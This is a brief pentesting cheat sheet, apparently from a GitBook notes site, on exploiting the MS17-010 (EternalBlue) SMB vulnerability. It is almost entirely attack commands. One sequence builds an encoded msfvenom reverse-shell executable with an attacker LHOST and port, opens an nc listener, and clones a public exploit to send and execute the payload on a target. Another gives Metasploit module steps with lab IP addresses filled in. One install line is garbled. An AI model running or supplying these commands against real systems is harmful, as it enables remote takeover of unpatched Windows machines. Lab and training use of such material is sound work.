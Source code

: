 ```yaml
---
description: SMB Exploit MS17-010
---
```


# MS17-010

Some tools to exploiting Eternalblue

### Exploiting MS17-010

{% code overflow="wrap" %}
```bash
msfvenom -p windows/shell_reverse_tcp -f exe -o asuka.exe \
-a x86 -e x86/shikata_ga_nai LHOST=192.168.100.1 LPORT=31337

# run nc from attacker
nc -lvp 31337

# exploiting the vulnerability
git clone https://github.com/helviojunior/MS17-010
cd MS17-010
python send_and_execute.py target.lab asuka.exe

# In case the dependency is missing
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
python2 get-pip.py
pip2 install pip install impacket==0.9.22
```
{% endcode %}

Or using Metasploit

{% code overflow="wrap" %}
```bash
use exploit/windows/smb/ms17_010_eternalblue
show options
set LHOST 10.4.33.242
set RHOSTS 10.10.82.157
run
```
{% endcode %}
